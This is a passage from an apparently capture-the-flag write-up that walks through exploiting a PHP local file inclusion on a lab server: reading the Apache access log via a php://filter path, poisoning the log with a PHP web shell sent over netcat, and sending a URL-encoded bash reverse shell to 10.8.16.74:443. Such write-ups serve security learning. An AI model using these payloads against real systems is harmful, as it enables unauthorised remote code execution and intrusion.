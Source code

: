 We notice that `index.php` also checks for the `ext` parameter and if it's missing, it appends `.php`.

So, we can read now the `/var/log/apache2/access.log` on the URL: `http://10.10.202.202/?view=php://filter/convert.base64-encode/resource=dog/../../../../var/log/apache2/access.log&ext` (again after decoding from base64).


So, we can perform `log poisoning` in order to execute commands.

```shell
geobour98@kali:~$ nc -vn 10.10.202.202 80
(UNKNOWN) [10.10.202.202] 80 (http) open
GET /<?php system($_GET['cmd']); ?>    
HTTP/1.1 400 Bad Request
Date: Sun, 30 Oct 2022 08:30:36 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 302
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 172.17.0.2 Port 80</address>
</body></html>
```

The response has `400` HTTP status code but we can verify that the `log poisoning` was successful by navigating to: 
`http://10.10.202.202/?view=.dog/../../../../var/log/apache2/access.log&cmd=id&ext`

The output is: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`, so we now can get a reverse shell through Burp Suite.

Refresh this page: `http://10.10.202.202/?view=.dog/../../../../var/log/apache2/access.log&cmd=id&ext` and Intercept it with Burp. Then replace the `id` command with `bash -c 'exec bash -i &>/dev/tcp/10.8.16.74/443 <&1'` but URL-encoded. 

So the request should look like this:

```shell
GET /?view=.dog/../../../../var/log/apache2/access.log&cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.8.16.74/443+<%261'&ext HTTP/1.1
Host: 10.10.202.202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```
